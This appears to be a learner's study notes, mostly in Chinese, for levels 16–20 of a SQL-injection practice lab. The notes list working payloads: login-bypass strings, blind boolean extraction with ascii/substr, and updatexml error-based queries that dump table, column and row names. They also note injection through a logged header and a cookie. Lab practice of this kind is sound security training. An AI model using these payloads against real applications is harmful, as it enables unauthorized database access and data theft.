


# 16
- 1") or 1=1 #   (√)（说明")是突破）
- 1') or 1=1 #
- 1" or 1=1 #  
- 1' or 1=1 #

- ") or (length(database())=8) -- a
- ") or (ascii(substr(database(),1,1)))=115 -- a
- ") or (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))=101 -- a
- ") and (ascii (substr ((select column_name from information_schema.columns where table_name='emails' limit 0,1),1,1)))=105-- qwe

# 17
- 1") or 1=1 #   
- 1') or 1=1 #
- 1" or 1=1 #  
- 1' or 1=1 #      (发现都不行，再看提醒，‘密码重置’，所以可能要从密码入手)

- admin\1' or 1=1 # 

（不知道为什么有的前面需要加数字）
- 判断库名：'and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1)-- qwe
- 判断表名：111'and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security'limit 0,1),0x7e),1)-- qwe
- 判断列名：111'and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1),0x7e),1)-- qwe
- 判断数据：111'and updatexml(1,concat(0x7e,(select id from emails limit 0,1),0x7e),1)-- qwe

# 18【给IP？有点懵逼】
既然获取了ip，有没有可能获取一些其他信息

- 抓包后，将这个信息修改成注入语句【注意，和之前的语句不太一样】（后面两个1和括号用于补齐字段）
- 必须要登陆成功才会记录ip
- 'and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1),1,1)-- qwe
- 'and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security'limit 0,1),0x7e),1),1,1)-- qwe
- 'and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1),0x7e),1),1,1)-- qwe
- 'and updatexml(1,concat(0x7e,(select id from emails limit 0,1),0x7e),1),1,1)-- qwe

# 19
先登录

和18一样，只是注入点不同

# 20
登录
这次是cookie传参
- 'and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1)-- qwe

